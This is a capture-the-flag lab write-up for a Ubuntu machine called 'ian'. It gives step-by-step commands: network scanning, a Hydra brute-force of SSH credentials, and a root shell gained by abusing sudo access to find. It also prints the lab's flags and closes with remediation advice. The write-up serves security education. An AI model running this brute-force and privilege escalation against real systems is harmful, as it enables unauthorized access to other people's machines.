







# IB Series 1 - CTF Writeup

**Author:** Aleti Balaswamy  
**Target IP:** 10.10.10.51  
**Hostname:** ian  
**Operating System:** Ubuntu 14.04.5 LTS  
**Difficulty:** CTF Lab

---

## 1. Enumeration

### IP Address Discovery

Command:
```bash
sudo arp-scan --localnet
```

The target machine was identified with IP address `10.10.10.51`.



### Service Scan

Command:
```bash
nmap 10.10.10.51 -sV
```

**Open Ports:**

| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 6.6.1p1 |
| 80 | HTTP | Apache 2.4.7 |



---

## 2. Web Enumeration

The target IP was accessed through a web browser.

URL: `http://10.10.10.51`

A hint was discovered on the webpage. After decoding it using the NATO phonetic alphabet, the username `bell` was identified.



---

## 3. SSH Password Discovery

Hydra was used with the rockyou.txt wordlist to test SSH authentication.

Command:
```bash
hydra -l bell -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.51
```

**Discovered Credentials:**

- Username: `bell`
- Password: `shadow`



---

## 4. SSH Login

The discovered credentials were used to access the target machine through SSH.

Command:
```bash
ssh bell@10.10.10.51
```

Successful authentication provided shell access as the `bell` user.


---

## 5. User Flag

After gaining access, the user's home directory was examined and `userflag.txt` was discovered.

Commands:
```bash
whoami
cat userflag.txt
```

**User Flag:**
```text
f4e690f638c01bd8a19fb1349d40519c
```



---

## 6. Privilege Escalation - Sudo Misconfiguration

The `sudo -l` command was used to identify commands that the `bell` user could execute with elevated privileges.

It was found that `/usr/bin/find` could be executed as root.

The privilege escalation technique was verified using GTFOBins.

Commands:
```bash
sudo -l
sudo find . -exec /bin/bash \; -quit
```

The command successfully provided a root shell.



---

## 7. Root Flag

After successful privilege escalation, root access was verified using:

```bash
whoami
cd /root
ls
cat rootflag.txt
```

**Root Flag:**
```text
c8aaf0f3189e000006c305bbfcbeb790
```



---

## 8. Remediation

- **Restrict Sudo Privileges:** Do not allow unrestricted root execution of powerful binaries such as `find`.
- **Enforce Strong Passwords:** Use strong and unique passwords to prevent SSH password attacks.
- **Secure Web Applications:** Avoid exposing sensitive information or authentication hints on publicly accessible webpages.
- **Regular Security Assessments:** Perform periodic vulnerability assessments to identify security weaknesses and misconfigurations.

---

## 9. Tools Used

- Kali Linux
- ARP Scan
- Nmap
- Hydra
- SSH
- GTFOBins

---

**Disclaimer:** This writeup is for educational purposes and authorized CTF lab environments only.
